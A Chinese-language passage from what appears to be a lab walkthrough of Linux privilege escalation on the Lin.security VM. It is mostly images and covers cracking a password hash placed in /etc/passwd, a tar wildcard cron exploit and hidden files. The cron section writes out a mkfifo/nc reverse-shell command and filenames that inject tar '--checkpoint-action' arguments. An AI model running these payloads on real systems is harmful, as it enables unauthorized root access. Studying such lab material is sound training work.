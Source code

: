 在现代 Linux 系统上，用户密码哈希存储在 / etc/shadow 中。如果我们查看 / etc/passwd，通常会看到以下内容：  

roroot:x:0:0:root:/root:/bin/bash....

在这种情况下，x 表示该用户的密码哈希存储在 / etc/shadow 中。但是，可以用此 x 替换 / etc/passwd 中的哈希，然后由主机对其进行评估....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8oGjJAD00GXiaz0A9DqyropthicCb39PK6hicuSzR1Nh4Sr84K7icIbmXNg/640?wx_fmt=png)

列如 JTR 或 hash-identifier 之类的工具将有助于将该哈希识别为 descrypt，然后我们可以将其扔给 JTR 或 hashcat 进行破解看看.....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8JbbcFQNwttRfxkRJ9r746s6vJFk46iaS5PoBslJSvG7ogVs30iaWb3XA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/oIftju2DdeGdtSnaOEZ7dibDcSL9ib8MeA7v8VPEFAcOYWzibKvXcW7YAwp0ibOnVplJ4lice0S6Sqibfz8UR69AQHVA/640?wx_fmt=png)

方法 3

![](https://mmbiz.qpic.cn/mmbiz_png/ia0ZzxuKYGB9z3YUuDtmdjaRia8IyUwsy5ibNsXFTO9GDUIKia5YOFmoojYV2vIZgibiaCN7jk6bWLjrrjqJDqb5q7eQ/640?wx_fmt=png)

cron 作业方法攻击，这里可以参考

```
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8ImUzafb2ASfjQibVOjicT4Hc5fNiaezlcPjm5IDy5pH1kduGTMxic4I71A/640?wx_fmt=png)

链接在上面（）有...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8TTcXoR1GrrhuvRafRLs04eLLDIkZknCvZobx1qzcMv9oEABI3kWSicQ/640?wx_fmt=png)

在攻击会话中执行...

```
echo "mkfifo /tmp/dayu; nc 127.0.0.1 6666 0</tmp/dayu | /bin/sh >/tmp/dayu 2>&1; rm /tmp/dayu" > shell.sh && chmod +x shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8iaHfEeAzI61QJgko3dYuv1xxqSFZTJDk2mq0njcyypWtpqp4mhIVHXg/640?wx_fmt=png)

在有关 Lin.security 的另一个会话中，我们需要运行一个侦听器... 成功提权

![](https://mmbiz.qpic.cn/sz_mmbiz_png/oIftju2DdeGdtSnaOEZ7dibDcSL9ib8MeA7v8VPEFAcOYWzibKvXcW7YAwp0ibOnVplJ4lice0S6Sqibfz8UR69AQHVA/640?wx_fmt=png)

方法 4

![](https://mmbiz.qpic.cn/mmbiz_png/ia0ZzxuKYGB9z3YUuDtmdjaRia8IyUwsy5ibNsXFTO9GDUIKia5YOFmoojYV2vIZgibiaCN7jk6bWLjrrjqJDqb5q7eQ/640?wx_fmt=png)

利用隐藏文件....  

有时最简单的漏洞隐藏在视线中....

找下...

用 ls 或者 find 找都可以...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPV2pAbAZYeN9KSM3g52ibr8dPrltqL2YEuX9ZL07OzQ5cnODJGMk3HgshRUAOm4qWaxENbSdSlXibg/640?wx_fmt=png)
